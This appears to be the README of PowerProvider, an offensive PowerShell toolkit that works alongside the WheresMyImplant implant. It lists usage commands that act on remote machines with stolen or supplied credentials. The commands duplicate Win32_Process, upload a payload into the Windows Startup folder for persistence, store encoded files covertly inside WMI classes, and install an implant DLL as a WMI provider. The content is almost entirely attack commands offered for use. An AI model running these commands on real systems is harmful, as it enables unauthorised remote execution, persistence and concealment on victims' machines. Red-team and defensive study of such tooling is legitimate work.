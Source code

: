 ## PowerProvider

PowerProvider: A toolkit to manipulate WMI. This toolkit provides functionality to:
* Duplicate Classes
* Create static classes for file storage
* Remote Install WMI Providers

Primarily used in conjunction with WheresMyImplant - https://github.com/0xbadjuju/WheresMyImplant/

### Methods
#### Class Duplication
  * **Invoke-WMIDuplicateClass**
    * Invoke-WMIDuplicateClass -TargetClassName Win32_Process -DuplicateClassName Win32_Create -ComputerName $ComputerName -Credential $Credential

#### File Transfer
  * **Invoke-WMIUpload**
    * $Destination = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    * Invoke-WMIUpload -PayloadPath C:\Payload.exe -Destination $Destination -PayloadName Payload.exe -ComputerName  $ComputerName -Credential $Credential
    * Invoke-WMIUpload -PayloadPath C:\Payload.exe -Inject -PayloadName Payload.exe -ComputerName  $ComputerName -Credential $Credential
  * **Invoke-WMIRemoteExtract**
    * $Destination = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    * Invoke-WMIRemoteExtract -PayloadName Payload.exe -Destination $Destination -ComputerName  $ComputerName -Credential $Credential

#### File Storage
  * **New-WMIFSClass
    * New-WMIFSClass -ComputerName $ComputerName -Credential $Credential
  * **ConvertTo-Base64**
    * $File = ConvertTo-Base64 -FileName C:\Payload.exe -Inject
  * **Invoke-InsertFileThreaded**
    * Invoke-InsertFileThreaded -EncodedText $File -FileName Payload.exe -ComputerName $ComputerName -Credential $Credential -Verbose
  * **Invoke-RetrieveFile**
    * $File = Invoke-RetrieveFile -FileName C:\Payload.exe -ComputerName $ComputerName -Credential $Credential
  * **ConvertFrom-Base64**
    * $FileBytes = ConvertFrom-Base64 -ComputerName $ComputerName -Credential $Credential
  * **ConvertTo-EncryptedText**
    * $EncryptedString = ConvertTo-EncryptedText -PlaintextString $File
  * **ConvertFrom-EncryptedText**
    * $File = ConvertFrom-EncryptedText -EncryptedString $EncryptedString
    
#### Provider Install
  * **Install-WMIProviderInstallUtil**
    * Install-WMIProviderInstallUtil -LibraryLocation C:\Windows\System32\wbem\WheresMysImplant.dll -ComputerName $ComputerName -Credential $Credential
  * **Install-WMIProviderPowerShell**
    * Install-WMIProviderPowerShell -LibraryLocation C:\Windows\System32\wbem\WheresMysImplant.dll -ComputerName $ComputerName -Credential $Credential
  * **Install-WMIProviderExtention**
    * Install-WMIProvider -LocalLibraryLocation C:\WheresMyImplant.dll -ComputerName $ComputerName -Credential $Credential
  * **Uninstall-WMIProviderExtention**
    * Uninstall-WMIProvider -ProviderName WheresMyImplant -ClassName Win32_Implant C:\WheresMy -ComputerName $ComputerName -Credential $Credential
